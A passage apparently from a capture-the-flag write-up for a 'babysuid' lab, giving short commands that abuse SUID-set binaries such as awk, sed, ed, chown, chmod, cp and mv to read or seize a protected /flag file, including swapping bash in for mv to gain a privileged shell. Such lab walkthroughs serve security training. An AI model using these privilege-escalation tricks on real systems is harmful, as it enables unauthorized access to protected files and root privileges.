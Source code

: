 whiptail - display dialog boxes from shell scripts

```bash
ctf$: LFILE=file_to_read
./whiptail --textbox "$LFILE" 20 80
```

### 34 - awk

mawk - pattern scanning and text processing language

```bash
ctf$: ./awk '//' "$LFILE"
```

### 35 - sed

sed - stream editor for filtering and transforming text

```bash
ctf$: ./sed -e '' "$LFILE"
```

### 36 - ed

ed - line-oriented text editor

```bash
ctf$: ./ed file_to_read
,p
q
```

### 37 - chown

chown - change file owner and group

```bash
ctf$: ./chown $(id -un):$(id -gn) /flag
```

### 38 - chmod

```bash
ctf$: ./chmod 6777 /flag
```

### 39 - cp

```bash
ctf$: cp /flag /dev/stdout
```

### 40 - mv

```bash
ctf$: /challenge/babysuid_level40 && mv /usr/bin/bash /usr/bin/mv && /challenge/babysuid_level40 && mv -p
```
